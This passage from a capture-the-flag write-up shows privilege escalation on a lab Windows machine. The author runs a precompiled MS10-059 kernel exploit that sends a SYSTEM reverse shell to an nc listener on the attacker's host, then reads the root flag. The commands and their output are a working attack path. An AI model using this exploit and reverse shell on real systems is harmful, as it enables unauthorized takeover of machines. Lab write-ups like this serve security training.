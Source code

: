 I will be using `MS10-059` and there's even a [compiled executable](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe) for it, ready to use.

# Exploitation (2)

After transferring over `MS10-059.exe`, we will need to setup another `nc` listener.

```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
```

And then we can execute the kernel exploit to get a shell as `SYSTEM`!

```
C:\tmp> MS10-059.exe 10.10.XX.XX 1337
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```

```bash
$ rlwrap nc -lvnp 1337  
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.11] 49831
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\tmp> whoami
whoami
nt authority\system
```

# root.txt

The root flag is in `Administrator`'s Desktop.

```
C:\tmp> type C:\Users\Administrator\Desktop\root.txt
ce65XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### Rooted ! Thank you for reading and look forward for more writeups and articles !